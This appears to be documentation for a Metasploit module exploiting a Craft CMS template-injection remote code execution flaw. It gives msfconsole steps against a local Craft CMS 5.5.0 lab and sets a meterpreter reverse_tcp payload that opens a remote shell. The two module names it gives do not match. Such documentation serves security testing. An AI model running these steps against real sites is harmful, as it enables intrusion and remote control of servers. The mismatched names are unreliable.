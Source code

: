 ```bash
```

---

## Verification Steps

1. Start the vulnerable Craft CMS instance using the steps above.
2. Launch `msfconsole`.
3. Use the module: `use exploit/multi/http/craftcms_twig_rce`.
4. Set `RHOSTS` to the target Craft CMS instance.
5. Configure additional options (`TARGETURI`, `SSL`, etc.) as needed.
6. Execute the exploit with the `run` command.
7. If successful, the module will execute the payload on the target.

---

## Options
No option

## Scenarios

#### Successful Exploitation Against Craft CMS 5.5.0

**Setup**:

- Local Craft CMS instance with a vulnerable version (e.g., `5.5.0`).
- Metasploit Framework.

**Steps**:

To successfully exploit the Craft CMS vulnerability using this Metasploit module, follow these steps:

1. Start `msfconsole`:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/craftcms_ftp_template
```

3. Set the `RHOSTS` option to the target Craft CMS instance, for example:
```bash
set RHOSTS exploit-craft.ddev.site
```

4. Configure other necessary options such as `TARGETURI`, `SSL`, and `RPORT` if required. By default:
   - `RPORT` is set to `80`.
   - `TARGETURI` is set to `/`.

5. Set the payload for exploitation. For example:
```bash
set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
```

